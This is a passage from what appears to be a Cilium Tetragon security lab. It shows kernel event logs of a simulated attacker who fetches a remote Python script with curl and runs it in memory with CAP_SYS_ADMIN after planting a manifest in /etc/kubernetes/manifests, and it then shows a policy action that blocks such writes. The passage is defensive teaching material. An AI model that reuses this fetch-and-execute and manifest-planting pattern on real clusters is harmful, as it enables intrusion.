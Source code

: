 By using Cilium Tetragon you are able to follow the final movements of the attack.

After about a minute, in the logs in >_ Terminal 2, the process_exec event shows the sensitive curl command with the arguments of https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN

You can also identify the sensitive socket connection opened via curl with the following destination IP 185.199.110.133 and port 443:
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.6:33842 -> 185.199.110.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.6:33842 -> 185.199.110.133:443 🛑 CAP_SYS_ADMIN

While the following process_exit events show the malicious python script execution in memory is finished with exit code 0, which means it was successful:
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN


Enforcing Security Policies

Being able to observe security events directly in the Kernel and report them is great, but would it be possible to actually prevent them just as they happen?

This is what Tetragon Policy Enforcement is about!
We've seen that we could detect attacker actions with Tetragon. But could we have avoided them as well?

In this scenario, we really started getting in trouble when the attacker managed to write the hack-latest.yaml file in /etc/kubernetes/manifests on the node.

Using,the </> Editor, edit the sys-write-etc-kubernetes-manifests.yaml manifest and add an action at the end of the spec.kprobes.selectors section:
matchActions:
- action: Override
  argError: -1

This will make calls to the kernel for reading or writing files in /etc/kubernetes/manifests fail.

The matchActions section can be used to specify the action Tetragon should apply when an event occurs. It takes various possible actions, among which:

    Sigkill to kill the process immediately
    Override to override the function return arguments
    Signal to send a signal to the process
    GetUrl to send a GET request to a known URL

In this example, we will use the Override action.

Next, update the policy in the >_ Terminal 1:
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
